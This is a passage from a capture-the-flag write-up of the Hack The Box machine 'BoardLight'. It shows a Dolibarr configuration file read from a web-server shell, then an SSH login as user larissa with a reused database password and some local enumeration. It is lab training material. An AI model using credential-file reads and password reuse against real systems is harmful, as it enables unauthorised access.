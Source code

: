 ```
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ 

```

# SSH - larissa

The database password worked and granted access to the larissa user. 

```
┌──(kali㉿kali)-[~/hackthebox/boardlight]
└─$ ssh larissa@board.htb            
larissa@board.htb's password: 
Last login: Sun Jun  9 04:30:27 2024 from 10.10.16.2
larissa@boardlight:~$ sudo -l
[sudo] password for larissa: 
Sorry, user larissa may not run sudo on localhost.
larissa@boardlight:~$ ls -la
total 76
drwxr-x--- 15 larissa larissa 4096 May 17 01:04 .
drwxr-xr-x  3 root    root    4096 May 17 01:04 ..
lrwxrwxrwx  1 root    root       9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 larissa larissa  220 Sep 17  2023 .bash_logout
-rw-r--r--  1 larissa larissa 3771 Sep 17  2023 .bashrc
drwx------  2 larissa larissa 4096 Jun  9 04:30 .cache
drwx------ 12 larissa larissa 4096 May 17 01:04 .config
drwxr-xr-x  2 larissa larissa 4096 May 17 01:04 Desktop
drwxr-xr-x  2 larissa larissa 4096 May 17 01:04 Documents
drwxr-xr-x  3 larissa larissa 4096 May 17 01:04 Downloads
drwxr-xr-x  3 larissa larissa 4096 May 17 01:04 .local
drwxr-xr-x  2 larissa larissa 4096 May 17 01:04 Music
lrwxrwxrwx  1 larissa larissa    9 Sep 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  2 larissa larissa 4096 May 17 01:04 Pictures
-rw-r--r--  1 larissa larissa  807 Sep 17  2023 .profile
drwxr-xr-x  2 larissa larissa 4096 May 17 01:04 Public
drwx------  2 larissa larissa 4096 May 17 01:04 .run
```